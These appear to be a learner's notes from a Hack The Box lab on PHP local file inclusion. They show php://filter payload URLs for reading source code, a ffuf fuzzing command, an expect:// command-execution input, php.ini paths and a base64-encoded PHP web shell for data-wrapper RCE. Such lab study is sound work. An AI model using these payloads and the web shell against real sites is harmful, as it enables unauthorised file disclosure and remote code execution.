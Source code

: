 The filter wrapper has several parameters, but the main ones we require for our attack are resource and read. The resource parameter is required for filter wrappers, and with it we can specify the stream we would like to apply the filter on (e.g. a local file), while the read parameter can apply different filters on the input resource, so we can use it to specify which filter we want to apply on our resource.
```
http://144.126.226.105:30561/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

php://filter can also be used without base64 encoding the output using:
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```
#### Fuzzing for php files...
```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

## RCE
### PHP wrappers
PHP wrappers are additional codes which tell the stream how to handle specific protocols/encodings...
A wrapper is an entity that surrounds another entity (in this case – code). The wrapper can contain functionality added to the original code. PHP uses built-in wrappers, which are implemented alongside file system functions. Attackers use this native functionality of PHP to add vulnerabilities into wrappers.
```
PHP Expect Wrapper
PHP expect:// allows execution of system commands, unfortunately the expect PHP module is not enabled by default.
php?page=expect://ls
```
#### Reading the php config files...
PHP configuration files are found at (/etc/php/X.Y/apache2/php.ini) for Apache or at (/etc/php/X.Y/fpm/php.ini) for Nginx, where X.Y is your install PHP version.
We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file.

We should also use the base64 filter we used in the previous section, as .ini files are similar to .php files and should be encoded to avoid breaking.

#### Data Wrapper
If the "allow_url_include" is set to on, we can get rce using the data php wrapper.

The data wrapper can be used to include external data, including PHP code. 

```
MetricCode@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```
